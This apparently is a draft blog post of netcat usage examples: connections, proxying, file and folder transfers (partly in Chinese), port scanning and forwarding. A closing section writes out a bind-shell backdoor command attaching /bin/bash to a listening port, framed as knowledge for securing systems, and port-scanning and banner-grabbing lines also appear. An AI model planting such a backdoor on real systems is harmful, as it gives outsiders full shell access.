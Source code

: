 ```yaml
---
title: "Useful nc Examples"
date: 2023-11-21T12:40:52+08:00
draft: true
---
```


1) Basic Connection Establishment
Ncat or nc simplifies the process of creating basic connections between systems. Use the following command to establish a connection between a client and a server:

$ ncat -l port_number

Where:

-l : Bind and listen for incoming connections on the port_number.
For example,

$ nc -l 8080   //Server
$ nc localhost 8080 //Client
This basic example allow server to listen on port 8080 and clients can connect to it.

2) Connect to a Remote System
To connect to a remote system with nc, execute the following command,

$ nc -v IP_address port_number

or

$ nc -v FQDN

Let’s take an example,

$ nc -v 192.168.1.248 80
or 
$ nc -v www.linuxtechi.com 443
Now a connection to server with IP address 192.168.1.248 will be made at port 80 & we can now send instructions to server. Like we can get the complete page content with


GET / HTTP/1.1

or get the page name,

GET / HTTP/1.1

or we can get banner for OS fingerprinting with the following,

HEAD / HTTP/1.1

This will tell what software is being used to run the web Server.

Alternate way to check,

$ echo -e "GET / HTTP/1.1\nHost: 192.168.1.248\n\n" | nc 192.168.1.248 80
3) Connecting to UDP Ports
By default , the nc utility makes connections only to TCP ports. But we can also make connections to UDP ports, for that we can use option ‘u’,

$ ncat -l -u 1234
Now our system will start listening a udp port ‘1234’, we can verify this using below netstat command,

$ netstat -tunlp | grep 1234
udp 0 0 0.0.0.0:1234 0.0.0.0:* 10713/nc
$
netstat-udp-connection-check-linux

Let’s assume we want to send or test UDP port connectivity to a specific remote host, then use the following command,

$ ncat -v -u {host-ip} {udp-port}

$ nc -v -u 192.168.105.150 53
Ncat: Version 7.91 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53.
4) NC as chat tool
NC allows for real-time chat between two systems. Start a chat server:

$ ncat -l -p 9090
On remote client machine, run

$ ncat 192.168.1.248 9090
Than start sending messages & they will be displayed on server terminal.

NC-Chat-Server-Linux

5) NC as a proxy
NC can also be used as a proxy with a simple command. Let’s take an example,

$ ncat -l 8080 | ncat 192.168.1.200 80
Now all the connections coming to our server on port 8080 will be automatically redirected to 192.168.1.200 server on port 80. But since we are using a pipe, data can only be transferred & to be able to receive the data back, we need to create a two way pipe. Use the following commands to do so,

$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way
Now you will be able to send & receive data over nc proxy.

6) Transfer Files Using nc
NC can also be used to transfer or copy the files from one system to another, though it is not recommended & mostly all systems have ssh/scp installed by default. But none the less if you have come across a system with no ssh/scp, you can also use nc as last ditch effort.

Start with machine on which data is to be received & start nc is listener mode,

$ ncat -l  8080 > file.txt
Now on the machine from where data is to be copied, run the following command,

$ ncat 192.168.1.100 8080 --send-only < data.txt
Here, data.txt is the file that has to be sent. –send-only option will close the connection once the file has been copied. If not using this option, than we will have press ctrl+c to close the connection manually.

We can also copy entire disk partitions using this method, but it should be done with caution.

7) Port Scanning
You can use nc to scan a range of ports on a target system to check for open services. For instance:

$ nc -zv <hostname or IP address> <start_port>-<end_port>

$ nc -zv 192.168.1.248 80-100   # range
$ nc -zv example.com 443        # Particular port$ nc -zv example.com 80 443     # Multiple Port
8) Port Forwarding
We can also use NC for port forwarding with the help of option ‘c’ , syntax for accomplishing port forwarding is,

$ ncat -u -l  80 -c  'ncat -u -l 8080'
Now all the connections for port 80 will be forwarded to port 8080.

9) Set Connection Timeouts
Listener mode in ncat will continue to run & would have to be terminated manually. But we can configure timeouts with option ‘w’,

$ ncat -w 10 192.168.1.248 8080
This will cause connection to be terminated in 10 seconds, but it can only be used on client side & not on server side.

10) Force Server to Stay Up
When client disconnects from server, after sometime server also stops listening. But we can force server to stay connected & continuing port listening with option ‘k’. Run the following command,

$ ncat -l -k 8080
Now server will stay up, even if a connection from client is broken.

Additional Example

Remote Command Execution via nc
NC command can also be used to create backdoor to your systems & this technique is actually used by hackers a lot. We should know how it works in order to secure our system. To create a backdoor, the command is,

$ nc -l 10000 -e /bin/bash
‘e‘ flag attaches a bash to port 10000. Now a client can connect to port 10000 on server & will have complete access to our system via bash.

$ nc 192.168.1.100 10000

nc 传文件（方法1）

nc -l 9995 >zabbix.rpm
nc 10.0.1.162 9995 < zabbix-release-2.4-1.el6.noarch.rpm

nc 传文件（方法2）
nc -l 9992 <test.mv
nc 10.0.1.162 9992 >test2.mv

nc 传文件夹
管道后面最后必须是 - ，不能是其余自定义的文件名。（-是tar命令的一个选项，表示tar应该读取从标准输入（stdin）传入的数据。）
nc -l 9995 | tar xfvz -
tar cfz - * | nc 10.0.1.162 9995

todo: https://zhuanlan.zhihu.com/p/270185285